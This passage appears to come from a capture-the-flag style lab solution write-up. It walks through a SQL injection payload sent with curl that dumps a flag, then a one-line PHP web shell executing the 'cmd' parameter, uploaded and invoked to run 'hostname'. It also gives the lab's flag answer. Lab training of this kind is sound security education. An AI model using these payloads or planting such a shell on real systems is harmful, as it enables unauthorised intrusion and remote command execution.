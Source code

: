 Code: shell

```shell
curl -s -w "\n" http://STMIP:3003/?id=%27OR%201%3D1%27%20OR%201 | jq
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s -w "\n" http://10.129.202.133:3003/?id=%27OR%201%3D1%27%20OR%201 | jq
[

<SNIP>

  {
    "id": "8374932",
    "username": "HTB{THE_FL4G_FOR_SQLI_IS_H3RE}",
    "position": "736373"
  }
]
```

Answer: `HTB{THE_FL4G_FOR_SQLI_IS_H3RE}`

# Arbitrary File Upload

## Question 1

### "Achieve remote code execution and submit the server's hostname as your answer."

After spawning the target machine, students need to save the PHP backdoor to a file and then upload it at the "Login" page:

Code: php

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

![[HTB Solutions/CBBH/z. images/d9237623f84e3bd94759aa89155f5c44_MD5.jpg]]

Then, students will get an upload success confirmation page:

![[HTB Solutions/CBBH/z. images/3b4d4cb6c9b964c4712b1571517209b4_MD5.jpg]]

Students can either use the `cmd` URL parameter directly or the Python script provided in the module's section. To use the URL parameter directly, students need to supply the `hostname` command for the `cmd` parameter:

Code: shell

```shell
curl -s -w "\n" http://STMIP:3001/uploads/backdoor.php?cmd=hostname
```
